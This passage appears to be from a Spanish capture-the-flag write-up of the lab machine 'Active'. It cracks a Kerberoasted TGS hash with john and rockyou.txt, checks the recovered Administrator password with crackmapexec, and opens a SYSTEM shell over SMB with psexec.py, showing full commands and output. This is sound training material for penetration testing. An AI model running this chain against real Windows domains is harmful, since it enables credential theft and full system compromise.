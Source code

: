 ```
e3ccf02b1ddede5be00e51ae977bcdaf06064c3e499e2404ada87522b204f167e083032997df2f1f0179ccd44571b6db9ff371e2ca88ebdce6ed41637776a5400aa6116277a2bc07f62b7396db0c2f8aa3b21
fd376f1448286bc1902a4e3f47a6e4f8db97462bfbec89ba4b7520664ff9aa7c73f23e351772f20dabb7a8af9964cbf46b2d4c663f7043891a9fc7ad69c36da8b75a9f9727bdc342ac7605dbf25753dcf4883
be00cc61631522c179033345c99c562311fd47b08302ece8e41c32e802214c0addf369fdd3ccd8f6fd3ca705e0eaddf8ce7fcd3c24d3baec11a2544a3c43de7b1cf42e302fe4991d1a08f98ef4d5f3b87d927
24b5819a67460a760fab8e0cd50d8f6a35056e5175b4aa19565be1c98937bf71e3b29944c544220913b4284be18092a694f31b159d50aae15e9bcb329edeac0b9cc63d81a78b2cc5e2f680b44343697bedf40
1c95ac21d22faf2c7576273acebacfc1312c1f1f0020dd5e9c47d9a438f5249210961d2ed9dbe595d08de428344f72f5503d6785e5f100206be26017c118db6264015083ed00596eb4330e4c0bab1ea84372c
69050adb00fae353ffe94643fc202d00aef8f1080b49e967dbc90775fc104d
```
Tenemos el ticket, este hash debemos romperlo para obtener la contraseña, para ello se pueden utilizar diversas herramientas, en este caso utilizaremos `john` y el diccionario rockyou.txt:

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash

Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Ticketmaster1968 (?)     
1g 0:00:00:05 DONE (2023-02-06 19:54) 0.1972g/s 2078Kp/s 2078Kc/s 2078KC/s Tiffani1432..Thrash1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
Observamos que la contraseña es **Ticketmaster1968**, para verificar si la contraseña corresponde a la de administrador utilizamos `crackmapexec`:

```
crackmapexec smb 10.10.10.100 -u 'Administrator' -p 'Ticketmaster1968'

SMB         10.10.10.100    445    DC               [*] Windows 6.1 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False)
SMB         10.10.10.100    445    DC               [+] active.htb\Administrator:Ticketmaster1968 (Pwn3d!)
```

Observamos que todo es correcto, además `crackmapexec` nos dice **(Pwn3d!)**.

Como tenemos las credenciales de usuario administrador podemos intentar conectarnos por psexec.py, pues deberiamos tener capacidad de escritura en los recursos compartidos:

```
psexec.py active.htb/Administrator:Ticketmaster1968@10.10.10.100

Impacket v0.10.1.dev1+20230203.111903.32178de6 - Copyright 2022 Fortra

[*] Requesting shares on 10.10.10.100.....
[*] Found writable share ADMIN$
[*] Uploading file LxLKUFfn.exe
[*] Opening SVCManager on 10.10.10.100.....
[*] Creating service iIYA on 10.10.10.100.....
[*] Starting service iIYA.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```
